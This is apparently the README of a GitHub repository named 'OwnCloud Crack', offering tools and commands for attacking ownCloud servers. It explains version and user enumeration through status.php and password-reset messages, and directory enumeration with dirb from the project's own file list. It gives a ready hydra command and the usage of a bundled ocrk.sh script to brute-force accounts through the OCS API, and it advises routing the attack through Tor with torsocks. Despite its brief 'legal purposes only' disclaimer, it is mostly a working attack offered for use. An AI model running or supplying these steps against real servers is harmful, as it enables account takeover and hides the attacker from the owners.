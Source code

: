
OwnCloud Crack
====
A repository for OwnCloud hacking, originally intended only to bruteforce accounts. Later, more ideas came.


Version enumeration
-------
Just check http://testdom41n.org/status.php
Note that status.php can be removed, but some things may not work after that. Nearly all prod instnces have this enables.


User enumeration
-------

Forgot password option:
User doesn't exist message on web login: "Couldn't send reset email. Please make sure your username is correct."
User exist message on web login: "The link to reset your password has been sent to your email. If you do not receive it within a reasonable amount of time, check your spam/junk folders. If it is not there ask your local administrator."


Folder enumeration
-------

Get the source code from github and the follow the filenames from the core folder.

    git clone https://github.com/owncloud/core
    cd core
    find -follow | sed 's/^\.\///g' > owncloud_files.txt
    dirb https://testdom41n.org owncloud_files.txt


Bruteforce OwnCloud accounts using it's OCS API.
-------
Note that these scripts (ocrk.sh and ocrk.py) were written for educational purposes and you can also use hydra:

    hydra domain.org https-post-form "/ocs/v1.php/person/check:login=^USER^&password=^PASS^:S=<status>ok</status>" -L userlist.txt -P rockyou.txt -vv 

ocrk help with the "-h" switch:

    ./ocrk.sh -h

Before run, it's more convinient to make it executable: chmod +x ocrk.sh
Else you need to run it like "sh ocrk.sh"

    Syntax: ./ocrk.sh <site url> <username> <passwordlist>
    Example: ./orck.sh https://www.crkoc.com/ admin rockyou.txt

You can use this over Tor, but the "torify" command is not recommended. Use ". torsocks on" before running.

Use for legal purposes only.
